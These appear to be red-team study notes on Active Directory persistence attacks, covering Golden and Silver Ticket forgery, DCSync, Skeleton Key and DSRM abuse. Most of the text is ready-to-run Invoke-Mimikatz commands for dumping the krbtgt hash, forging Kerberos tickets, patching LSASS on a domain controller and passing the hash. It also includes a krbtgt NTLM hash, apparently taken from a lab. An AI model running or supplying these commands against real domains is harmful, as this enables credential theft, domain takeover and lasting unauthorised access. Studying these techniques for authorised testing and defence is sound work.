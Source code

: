 ++++++++++++++++++
Golden Ticket:
++++++++++++++++++
Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>

Once we get the hash of krbtgt account, we can generate our own TGT using:
> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
> klist


For DCSync:
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'
Example: Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'



+++++++++++++++
Silver Ticket:
+++++++++++++++
Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

> Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'


+++++++++++++++
Skeleton Key:
+++++++++++++++
Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.


++++++++++++++++++++++++++++++++++++++
DSRM(Directory Service Restore Mode):
++++++++++++++++++++++++++++++++++++++
When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin prives are required
> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>

After obtaining the DSRM hash:
> Invoke-Mimikatz -COmmand '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'


